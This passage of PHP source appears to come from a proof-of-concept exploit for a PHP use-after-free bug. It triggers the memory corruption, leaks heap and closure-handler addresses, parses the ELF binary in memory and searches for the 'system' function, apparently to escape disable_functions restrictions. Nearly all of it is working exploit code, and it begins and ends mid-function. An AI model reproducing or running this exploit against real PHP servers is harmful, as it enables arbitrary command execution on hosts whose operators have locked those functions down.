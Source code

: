 ```php
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
```